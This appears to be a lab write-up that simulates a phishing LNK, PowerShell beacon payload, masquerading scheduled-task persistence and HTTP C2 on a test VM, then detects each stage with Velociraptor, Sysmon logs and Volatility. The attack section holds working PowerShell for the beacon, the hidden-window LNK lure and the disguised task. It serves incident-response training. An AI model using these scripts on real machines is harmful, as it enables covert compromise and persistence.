# Phase 3 - Simulated Compromise and Detection

## Overview

This phase simulates a phishing-to-persistence-to-C2 kill chain
on FlareVM, then uses all five forensic artifacts from Phase 2
to detect and document every stage of the attack.

---

## Scenario A - MSSP Simulation

Starting snapshot: `FlareVM-Sysmon-Installed-Baseline`

### Kill Chain

| Step | Action |
|---|---|
| 1 | Malicious LNK file opened by user |
| 2 | PowerShell drops payload.ps1 to `AppData\Microsoft\Windows` |
| 3 | Scheduled task created for persistence |
| 4 | payload.ps1 beacons to C2 at `192.168.100.3:4444` |

### Lab Setup

**Ubuntu VM (192.168.100.3)**
- Velociraptor Server - collects artifacts
- C2 Listener - receives beacon on port 4444

**FlareVM (192.168.100.4)**
- Velociraptor Client - reports to server
- Victim machine - runs the kill chain

---

## Step 1 - C2 Listener

On the Ubuntu VM, open a terminal and start the listener:

```bash
mkdir -p /tmp/c2
cd /tmp/c2
python3 -m http.server 4444
```


> **What this does:** The Python HTTP server acts as the C2 receiver.
> When FlareVM's payload beacons to `192.168.100.3:4444`, this server
> logs the connection. In a real incident this IP would be the
> attacker's infrastructure - the first pivot point for scoping the breach.

Leave this running. Open a second terminal for remaining Ubuntu commands.

---

## Step 2 - Build the Payload

On FlareVM, open PowerShell as Administrator and run:

```powershell
$payloadContent = @'
# Simulated C2 beacon payload
# Phase 3 - Velociraptor IR Lab

$C2Server = "http://192.168.100.3:4444"
$Hostname = $env:COMPUTERNAME
$Username = $env:USERNAME

while ($true) {
    try {
        $beacon = Invoke-WebRequest -Uri "$C2Server/beacon" `
            -Method POST `
            -Body "host=$Hostname&user=$Username&status=alive" `
            -UseBasicParsing
        Write-Output "[+] Beacon sent successfully"
    }
    catch {
        Write-Output "[-] Beacon failed: $_"
    }
    Start-Sleep -Seconds 30
}
'@

$payloadPath = "$env:APPDATA\Microsoft\Windows\payload.ps1"
$payloadContent | Out-File -FilePath $payloadPath -Encoding ASCII
Get-Item $payloadPath
```

Output:




> **Why this path:** `AppData\Microsoft\Windows\` blends in with
> legitimate Windows file structure. Real droppers land payloads here
> specifically because it rarely gets scrutinised. This is what the
> MFT and Prefetch artifacts will catch in the detection phase.


---

## Step 3 - Create the LNK Dropper

The LNK file simulates the phishing lure - a shortcut that appears
to be a document but silently executes the payload when opened.

On FlareVM, open PowerShell as Administrator:

```powershell
$shell = New-Object -ComObject WScript.Shell

$fullPayloadPath = "C:\Users\$env:USERNAME\AppData\Roaming\Microsoft\Windows\payload.ps1"
$lnkPath = "$env:USERPROFILE\Desktop\Iran-Election-2009-Witness-Testimonies.lnk"
$lnk = $shell.CreateShortcut($lnkPath)

$lnk.TargetPath = "powershell.exe"
$lnk.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -File `"$fullPayloadPath`""
$lnk.IconLocation = "C:\Windows\System32\shell32.dll,1"
$lnk.Description = "Iran Election 2009 Witness Testimonies"
$lnk.Save()

Get-Item $lnkPath
```

Output:



---

## Step 4 - Establish Persistence

The scheduled task ensures payload.ps1 runs automatically on
every logon - even if the machine reboots or the initial process
is killed.

> **In a real attack this step does not require user interaction.**
> A real implant creates its own scheduled task silently the moment
> the user opens the phishing file. In this lab we run it manually
> to document each stage of the kill chain separately.

On FlareVM, open PowerShell as Administrator:

```powershell
$taskName = "MicrosoftEdgeUpdateTaskMachineCore"
$taskAction = New-ScheduledTaskAction `
    -Execute "powershell.exe" `
    -Argument "-WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\Microsoft\Windows\payload.ps1`""

$taskTrigger = New-ScheduledTaskTrigger -AtLogOn

Register-ScheduledTask `
    -TaskName $taskName `
    -Action $taskAction `
    -Trigger $taskTrigger `
    -RunLevel Highest `
    -Force

Get-ScheduledTask -TaskName $taskName | Select-Object TaskName, State
```

output:



> **Why this task name:** Attackers name persistence mechanisms
> after legitimate Windows components. `MicrosoftEdgeUpdateTaskMachineCore`
> already exists on most Windows machines as a real Edge update task -
> a malicious copy blends in unless you diff against a known baseline.
> This is exactly what the Autoruns baseline from Phase 2 catches.


---

## Step 5 - Trigger the Kill Chain

Double click `Iran-Election-2009-Witness-Testimonies.lnk` on the
FlareVM desktop.

The LNK executes silently. Within 30 seconds check the Ubuntu VM
terminal for the beacon.

Output on Ubuntu VM:




> **Note:** The Python HTTP server returns 501 for POST requests -
> this is expected. The connection still registers and is logged.
> The beacon hit from `192.168.100.4` confirms the payload executed
> and reached the C2 listener successfully.

The kill chain is now complete:

| Stage | Status |
|---|---|
| Payload dropped to disk | ✓ |
| LNK dropper created | ✓ |
| Scheduled task persistence | ✓ |
| Beacon reaching C2 | ✓ |


---

## Step 6 - Artifact Collection

Collect all five artifacts while the beacon is still running.
Memory acquisition captures the live connection to the C2 listener.

In the Velociraptor GUI on the Ubuntu VM:

https://127.0.0.1:8889


Select the FlareVM client > **New Collection** > add all five
artifacts in this order:

| Order | Artifact | Why |
|---|---|---|
| 1 | `Windows.NTFS.MFT` | File timeline - payload drop timestamp |
| 2 | `Windows.Forensics.Prefetch` | Execution history - confirms payload ran |
| 3 | `Windows.EventLogs.Evtx` | Scheduled task, process chain, script block |
| 4 | `Windows.Sysinternals.Autoruns` | Persistence entry not in baseline |
| 5 | `Windows.Memory.Acquisition` | Live beacon process and C2 connection |

For `Windows.Memory.Acquisition` set **Max MB to 4096** before
launching.

> **Why collect in this order:** Memory is collected last because
> it captures point-in-time state. All other artifacts are collected
> first so memory reflects the most complete picture of activity -
> including the live beacon connection to `192.168.100.3:4444`.

Expected result - all five collections complete:



---

## Detection - Artifact 1 - MFT

### Query 1 - Locate the Payload

```sql
SELECT FileName, OSPath, Created0x10, Created0x30, FileSize, InUse
FROM source(artifact="Windows.NTFS.MFT")
WHERE FileName =~ "(?i)payload"
```

Results:



**Findings:**

- `AppData\Roaming\Microsoft\Windows\` is not a location legitimate
  software writes scripts to. A `.ps1` file here is immediately suspicious.
- SI and FN timestamps match - no timestomping attempt in this simulation.

---

### Query 2 - Timestomping Check

```sql
SELECT FileName, OSPath, Created0x10, Created0x30
FROM source(artifact="Windows.NTFS.MFT")
WHERE Created0x10 < Created0x30
AND NOT IsDir
LIMIT 100
```

Results returned Windows App Repository database files:



These are false positives. The timestamp discrepancy reflects when
the files were first created on the original system vs when they
were written to this volume during FlareVM setup.

> **Rule of thumb:**
>
> | Pattern | Verdict |
> |---|---|
> | System database + ProgramData + known Windows component | Benign |
> | `.ps1` or `.exe` + AppData or Temp + recent timestamp | Investigate |

No timestomping indicators on this machine.

---

## Detection - Artifact 2 - Prefetch

### Query 1 - Suspicious Execution Paths

```sql
SELECT Executable, ExecutablePath, LastRunTimes, RunCount
FROM source(artifact="Windows.Forensics.Prefetch")
WHERE ExecutablePath =~ "(?i)(appdata|temp|programdata)"
ORDER BY LastRunTimes DESC
```

Results returned known legitimate software - OneDrive, Windows
Defender, Sysmon, and Autoruns. No malicious executables running
from user-writable locations.

> **Why no payload hit here:** The payload is a `.ps1` script,
> not an executable. Prefetch records binary executions - the
> binary that ran was `powershell.exe` from `System32`, not the
> script itself.

---

### Query 2 - PowerShell Execution History

```sql
SELECT Executable, ExecutablePath, LastRunTimes, RunCount
FROM source(artifact="Windows.Forensics.Prefetch")
WHERE Executable =~ "(?i)powershell"
ORDER BY LastRunTimes DESC
```

Results:



**Finding - timeline correlation:**

| Artifact | Timestamp | Event |
|---|---|---|
| Prefetch - PowerShell ran | 2026-09-13T19:06:58Z | PowerShell executed |
| MFT - payload.ps1 created | 2026-09-13T19:07:06Z | File dropped to disk |

PowerShell ran at `19:06:58`. The payload appeared on disk 8
seconds later at `19:07:06`. This is the execution sequence -
PowerShell ran and wrote the file.

> **Key point:** Prefetch alone does not tell you what PowerShell
> did. Combined with the MFT timestamp it builds the timeline.
> The correlation between these two artifacts is the finding.

---


## Detection - Artifact 3 - EVTX

### Query 1 - Scheduled Task Creation (Event ID 4698)

```sql
SELECT timestamp(epoch=System.TimeCreated.SystemTime) AS EventTime,
  EventData.TaskName AS TaskName,
  EventData.SubjectUserName AS User
FROM source(artifact="Windows.EventLogs.Evtx")
WHERE System.EventID.Value = 4698
ORDER BY EventTime DESC
```

Results:



**Finding:** `\MicrosoftEdgeUpdateTaskMachineCore` created at
`19:45:14` - after the payload was dropped at `19:07:06`. The malicious
task stands out immediately against the Phase 2 Autoruns baseline
where this entry did not exist.


---

### Query 2 - PowerShell Script Block Logging (Event ID 4104)

```sql
SELECT timestamp(epoch=System.TimeCreated.SystemTime) AS EventTime,
  EventData.ScriptBlockText AS ScriptBlock,
  EventData.Path AS Path
FROM source(artifact="Windows.EventLogs.Evtx")
WHERE System.EventID.Value = 4104
ORDER BY EventTime DESC
LIMIT 20
```

**Findings - Full payload source logged verbatim & LNK creation commands logged :**



> **Why this matters:** Even if an attacker base64-encodes or
> obfuscates their payload, Event ID 4104 logs what actually
> executed after decoding. The C2 IP, payload path, and full
> script content are captured verbatim regardless of how the
> payload was delivered.


---

### Query 3 - Sysmon Process Chain (Event ID 1)

```sql
SELECT timestamp(epoch=System.TimeCreated.SystemTime) AS EventTime,
  EventData.Image AS Image,
  EventData.CommandLine AS CommandLine,
  EventData.ParentImage AS ParentImage,
  EventData.IntegrityLevel AS IntegrityLevel
FROM source(artifact="Windows.EventLogs.Evtx")
WHERE System.Channel = "Microsoft-Windows-Sysmon/Operational"
AND System.EventID.Value = 1
AND EventData.Image =~ "(?i)powershell"
ORDER BY EventTime DESC
LIMIT 10
```

Results reconstruct the full kill chain timeline:



**Finding:** Every PowerShell execution is parented to
`explorer.exe` - the user opened something that triggered it.
The `-WindowStyle Hidden -ExecutionPolicy Bypass` flags are
the detection signature. No legitimate software runs PowerShell
hidden with execution policy bypassed.


---

### Query 4 - Sysmon Network Connections (Event ID 3)

```sql
SELECT timestamp(epoch=System.TimeCreated.SystemTime) AS EventTime,
  EventData.Image AS Image,
  EventData.DestinationIp AS DestIP,
  EventData.DestinationPort AS DestPort,
  EventData.SourceIp AS SourceIP
FROM source(artifact="Windows.EventLogs.Evtx")
WHERE System.Channel = "Microsoft-Windows-Sysmon/Operational"
AND System.EventID.Value = 3
AND EventData.Image =~ "(?i)powershell"
ORDER BY EventTime DESC
LIMIT 20
```

Results:



**Finding:** Regular 30-second beaconing from `powershell.exe`
to `192.168.100.3:4444`. Consistent intervals from a single
process to a single destination is the textbook C2 beaconing
pattern. In a real investigation `192.168.100.3` becomes the
first IOC - pivot to every other endpoint in the environment
and hunt for the same outbound connection.

---

## Detection - Artifact 4 - Autoruns

### Query 1 - Unsigned and Third Party Entries

```sql
SELECT timestamp(epoch=Time) AS Time,
  `Entry Location` AS Location,
  Entry, Category, Enabled,
  Signer, `Image Path` AS ImagePath,
  MD5, `SHA-256` AS SHA256
FROM source(artifact="Windows.Sysinternals.Autoruns")
WHERE Enabled = "enabled"
AND NOT Signer =~ "Microsoft Windows"
AND NOT Signer =~ "Microsoft Corporation"
ORDER BY Category
```

Results returned only known legitimate entries matching the
Phase 2 baseline:

> **The malicious task did not appear here.** The scheduled
> task uses `PowerShell.exe` as its binary - a Microsoft-signed
> binary. Signature-based filtering alone is not enough.

---

### Query 2 - Scheduled Task Hunt

```sql
SELECT timestamp(epoch=Time) AS Time,
  `Entry Location` AS Location,
  Entry, Category, Enabled,
  Signer, `Image Path` AS ImagePath,
  `Launch String` AS LaunchString
FROM source(artifact="Windows.Sysinternals.Autoruns")
WHERE Category = "Scheduled Tasks"
AND Entry =~ "(?i)edge"
```

Results:



**Finding:** The signer shows `(Verified) Microsoft Windows`
because the binary is `PowerShell.exe` - a legitimate Microsoft
binary. The malicious part is the argument - `payload.ps1` from
`AppData\Roaming\Microsoft\Windows`. Signature-based detection
alone misses this entirely.

> **This is living-off-the-land.** Attackers use legitimate
> signed binaries to execute malicious scripts so signature-based
> detection fails. The `LaunchString` is where the malice lives,
> not the binary.

> **No timestamp on the Autoruns entry.** Autoruns reads the
> current state of persistence locations - it does not record
> when an entry was created. Cross-reference with EVTX Event ID
> 4698 to get the creation time:
>
> ```
> 2026-09-13T19:45:14Z - MicrosoftEdgeUpdateTaskMachineCore created
> ```
>
> Autoruns tells you what persistence exists. EVTX tells you
> when it was created. Neither artifact alone gives the full picture.

---

## Detection - Artifact 5 - Memory Analysis

### Setup

Download the memory image from the Velociraptor GUI:

```bash
FlareVM client > Collections > Windows.Memory.Acquisition
> Results tab > Download Results > Prepare Download
```

On the Ubuntu VM, set the image path:

```bash
export IMG=~/Downloads/DESKTOP-0KM39H0-C.3211a6665b07c31b-F.DAJFVIDHOT4P8/uploads/auto/PhysicalMemory.dd
```

---

### Process List

```bash
vol -f $IMG windows.pslist
```

Two PowerShell processes identified:



Both parented to `explorer.exe` (PID 4468) - confirms
user-initiated execution via the LNK file.

---

### Process Tree

```bash
vol -f $IMG windows.pstree | grep -A 2 -B 2 "1780\|8524"
```

Full command line of PID 1780 confirmed in process tree:

```bash
"C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe"
-WindowStyle Hidden -ExecutionPolicy Bypass
-File "C:\Users\acrkmr\AppData\Roaming\Microsoft\Windows\payload.ps1"
```

---

### Network Connections

```bash
vol -f $IMG windows.netscan | grep -i "powershell\|ESTABLISHED\|CLOSE"
```

No output returned.

> **Why netscan returned nothing:** The beacon sleeps 30 seconds
> between connections. Memory was acquired while the payload was
> in the sleep phase - no active connection existed at that exact
> moment. This is a real-world limitation of point-in-time memory
> acquisition against beaconing malware.
>
> The network evidence was captured by Sysmon Event ID 3 which
> logs every connection attempt as it happens, not just what is
> active at collection time. This is why cross-artifact
> correlation matters - no single artifact tells the complete story.

---

### Code Injection Check

```bash
vol -f $IMG windows.malfind --pid 1780
```

Three `PAGE_EXECUTE_READWRITE` memory regions found in PID 1780.
No shellcode signatures visible in the hexdump. This is expected
behaviour for PowerShell - the .NET runtime uses RWX memory
regions legitimately.

> **Baseline value:** Establishing what malfind returns on a
> known payload with no injection is part of the baseline. In a
> real investigation, unexpected RWX regions with shellcode
> signatures would be an immediate finding.

---

### DLL List

```bash
vol -f $IMG windows.dlllist --pid 1780 2>/dev/null | head -40
```

All DLLs loading from `C:\WINDOWS\System32` - standard paths,
no unexpected or unsigned DLLs, no reflective loading indicators.

No DLLs loading from user-writable locations. Clean DLL list
for a PowerShell process.

---

### Memory Analysis Summary

| Plugin | Finding |
|---|---|
| `windows.pslist` | Two PowerShell processes - PID 1780 is the beacon |
| `windows.pstree` | Both spawned by explorer.exe - LNK execution confirmed |
| `windows.netscan` | No active connection - beacon was in sleep phase |
| `windows.malfind` | RWX regions present - benign .NET runtime behaviour |
| `windows.dlllist` | Clean DLL list - no reflective loading |

> **Key lesson:** Memory acquisition is point-in-time. A beaconing
> payload that sleeps between connections may not show an active
> network connection at the moment of capture. Sysmon Event ID 3
> fills this gap - it logs every connection attempt as it happens,
> not just what is active at collection time.

---

## Findings Summary

| Time (UTC) | Artifact | Finding |
|---|---|---|
| 19:06:58 | Prefetch | `powershell.exe` executed |
| 19:07:06 | MFT | `payload.ps1` dropped to `AppData\Roaming\Microsoft\Windows\` |
| 19:45:08 | Memory | PID 8524 - PowerShell session for scheduled task creation |
| 19:45:14 | EVTX 4698 | `MicrosoftEdgeUpdateTaskMachineCore` scheduled task created |
| 19:53:19 | Memory | PID 1780 - Live beacon process started |
| 19:53:19+ | EVTX Sysmon 1 | `explorer.exe` > `powershell.exe` `-WindowStyle Hidden -ExecutionPolicy Bypass` |
| 19:53:19+ | EVTX Sysmon 3 | 30-second beaconing to `192.168.100.3:4444` |
| 19:53:19+ | EVTX 4104 | Full payload source logged verbatim |
| Ongoing | Autoruns | `MicrosoftEdgeUpdateTaskMachineCore` - malicious LaunchString on signed binary |

---

## IOC List

| Type | Value |
|---|---|
| File path | `C:\Users\acrkmr\AppData\Roaming\Microsoft\Windows\payload.ps1` |
| File hash (SHA256) | `7BA2F894C3F5D6CE57FB57D7A3D5C5ADF051A35CDAC78E44303A8D0799CB57D5` |
| LNK file | `C:\Users\acrkmr\Desktop\Iran-Election-2009-Witness-Testimonies.lnk` |
| Scheduled task | `\MicrosoftEdgeUpdateTaskMachineCore` |
| C2 IP | `192.168.100.3` |
| C2 Port | `4444` |
| C2 Protocol | HTTP POST to `/beacon` |
| Beacon interval | 30 seconds |
| Process | `powershell.exe` - `-WindowStyle Hidden -ExecutionPolicy Bypass` |
| Parent process | `explorer.exe` (PID 4468) |
| Beacon PID | `1780` |

> **How to use this IOC list in a real engagement:**
> Take the C2 IP and hunt every other endpoint in the environment
> for the same outbound connection. Take the scheduled task name
> and hunt every endpoint for that task. Take the file path pattern
> and hunt for `.ps1` files in `AppData\Roaming\Microsoft\Windows\`
> across the estate. One confirmed endpoint becomes the pivot point
> for scoping the full breach.
